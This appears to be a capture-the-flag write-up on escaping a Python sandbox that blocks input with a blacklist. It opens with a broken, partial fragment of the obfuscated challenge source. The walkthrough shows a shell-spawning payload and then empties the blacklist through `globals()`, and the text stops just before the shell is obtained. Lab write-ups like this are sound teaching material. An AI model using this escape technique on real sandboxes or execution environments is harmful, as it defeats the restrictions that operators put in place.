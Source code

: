 ```python
uOaoBPLLRN = open("sandbox.py", "r")
uDwjTIgNRU = int(((54 * 8) / 16) * (1/3) - 8)
ORppRjAVZL = uOaoBPLLRN.readlines()[uDwjTIgNRU].strip().split(" ")
AAnBLJqtRv = ORppRjAVZL[uDwjTIgNRU]
bAfGdqzzpg = ORppRjAVZL[-uDwjTIgNRU]
uOaoBPLLRN.close()
HrjYMvtxwA = getattr(__import__(AAnBLJqtRv), bAfGdqzzpg)
RMbPOQHCzt = __builtins__.__dict__[HrjYMvtxwA(b'X19pbXBvcnRfXw==').decode('utf-8')](HrjYMvtxwA(b'bnVtcHk=').decode('utf-8'))\n""" + command
            exec(final_cmd)

        except (KeyboardInterrupt, EOFError):
            return 0
        except Exception as e:
            print(f"Exception: {e}")

if __name__ == "__main__":
    exit(main())
```

# Solution
## The Program
The provided file, `sandbox.py`, looks to be a python3 program which takes an input from the user, appends it to `final_cmd` (some obfuscated code), and runs the string as python code, like the python interactive cli (except each input is isolated). My first thought was to send a payload like `import os; os.system('/bin/sh')` to spawn a shell. However, this yields the response:
```
Exception: not allowed!
```
So it seems the program loads a blacklist from a local python module and checks it against the user's input to sanitize it to some degree. I tried obvuscating my input like `final_cmd` to see if I could get around the blacklist but I found that the blacklist was fairly exhaustive. So let's take a look at `final_cmd` and see if we can find any clues. After some reversing, simplifying, and base64 decoding, the code looks something like this:
```python
import base64.b64decode as HrjYMvtxwA
import numpy as RMbPOQHCzt
```
Not very much to work with huh. Since the blacklist prevented me from importing any modules, I started looking through this [list](https://docs.python.org/3/library/functions.html) of functions built in to python3 which don't need to be imported. I eventually came across `globals()`, a function that returns a `dict` of the script's global objects. So, I checked if it was blacklisted:
```python
EduPy 3.8.2
>>> print(globals())
{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7fc90cd9ec40>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, '__file__': 'sandbox.py', '__cached__': None, 'b64decode': <function b64decode at 0x7fc90cc5b940>, 'blacklist': <module 'blacklist' from '/home/slithery/blacklist.py'>, 'main': <function main at 0x7fc90ccabdc0>}
```
It's not on the blacklist! Even better, the blacklist is on *it*! Let's see if we can modify the blacklist:
```python
EduPy 3.8.2
>>> import
Exception: not allowed!!
>>> globals()['blacklist'].BLACKLIST = []
>>> import
Exception: invalid syntax (<string>, line 10)
```
Nice. Let's get a shell: